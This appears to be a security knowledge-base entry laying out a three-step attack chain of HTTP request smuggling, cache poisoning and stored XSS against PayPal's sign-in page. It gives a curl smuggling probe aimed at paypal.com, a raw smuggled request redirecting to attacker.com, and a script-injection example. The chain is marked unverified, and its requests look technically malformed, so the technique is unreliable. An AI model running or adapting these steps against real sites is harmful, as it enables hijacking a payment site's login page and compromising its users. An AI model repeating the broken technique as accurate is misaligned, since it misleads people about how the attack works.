

---
tags:
  - http-request-smuggling
  - xss
  - stored-xss
  - caching
  - paypal
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/cURL]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands: []
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Caching-Server-Vulnerability]]'
  - '[[procedures/Craft-Smuggling-Request-for-Cached-Redirect]]'
  - '[[procedures/Inject-and-Verify-Stored-XSS-Payload]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploits HTTP Request Smuggling in frontend caching servers to create cached
  redirects leading to stored XSS on PayPal's sign-in page
skill_level: intermediate
impact_level: high
id: e5482664-ba18-4d9c-b574-37b6bf15def1
created_at: '2025-12-11T03:47:59.466Z'
updated_at: '2025-12-11T03:47:59.466Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1059.007]]'
---
# HTTP Request Smuggling to Stored XSS on PayPal Sign-in Page

Multi-stage attack chain demonstrating exploitation of HTTP Request Smuggling in PayPal's frontend caching servers to achieve stored XSS on the sign-in page.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/cURL]]

### Target Environment

- Web platform
- Frontend caching servers
- Access to PayPal's public-facing web services

### Initial Access Requirements

- Network access to https://paypal.com
- No credentials required for initial exploitation
- Ability to send manipulated HTTP requests

## Detailed Attack Procedures

## Step 1: Reconnaissance - [[procedures/Identify-Caching-Server-Vulnerability]]

**Procedure**: [[procedures/Identify-Caching-Server-Vulnerability]]

**Objective**: Identify configuration issues in frontend caching servers that allow HTTP Request Smuggling.

**Expected Output**: Confirmation of smuggling vulnerability through discrepant request parsing.

First, test for HTTP Request Smuggling by sending probes using [[commands/curl-http-smuggling]]:

```bash
curl -H "Host: paypal.com" -H "Content-Length: 0" -H "Transfer-Encoding: chunked" --data "0\r\nGET /signin HTTP/1.1\r\nHost: paypal.com\r\n\r\n" https://paypal.com
```

Analyze the response for signs of smuggling success, such as unexpected redirects or content injection points.

**Success Indicators**:
- Response shows desynchronization between frontend and backend parsing
- Cached pages exhibit anomalous behavior

## Step 2: Exploitation - [[procedures/Craft-Smuggling-Request-for-Cached-Redirect]]

**Procedure**: [[procedures/Craft-Smuggling-Request-for-Cached-Redirect]]

**Objective**: Use smuggling to convert a page request into a cached redirect pointing to attacker-controlled content.

**Expected Output**: A cached redirect is created, poisoning the cache for the target page.

Craft and send the smuggling request using [[commands/burp-request-manipulation]] in Burp Suite to manipulate the request:

```http
POST /some-page HTTP/1.1
Host: paypal.com
Content-Length: 0
Transfer-Encoding: chunked

0
GET /signin HTTP/1.1
Host: attacker.com

```

This smuggles a redirect to attacker.com, which gets cached.

**Success Indicators**:
- Cache poisoning confirmed by accessing the page and observing the redirect
- Attacker content is served from the cache

## Step 3: Impact - [[procedures/Inject-and-Verify-Stored-XSS-Payload]]

**Procedure**: [[procedures/Inject-and-Verify-Stored-XSS-Payload]]

**Objective**: Inject XSS payload via the cached redirect to achieve stored XSS on the sign-in page.

**Expected Output**: Attacker's JavaScript executes when users access the sign-in page.

Host the XSS payload on attacker.com and verify execution using [[commands/curl-http-smuggling]] to trigger:

```bash
curl https://paypal.com/signin
```

Observe if the response includes the injected script, such as <script>alert('XSS')</script>.

**Success Indicators**:
- XSS payload executes in the browser
- Page integrity is compromised without affecting backend data

## Attack Chain Summary

### Key Achievements

1. Identified and exploited HTTP Request Smuggling vulnerability
2. Created cached redirect to inject attacker content
3. Achieved stored XSS on critical sign-in page

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
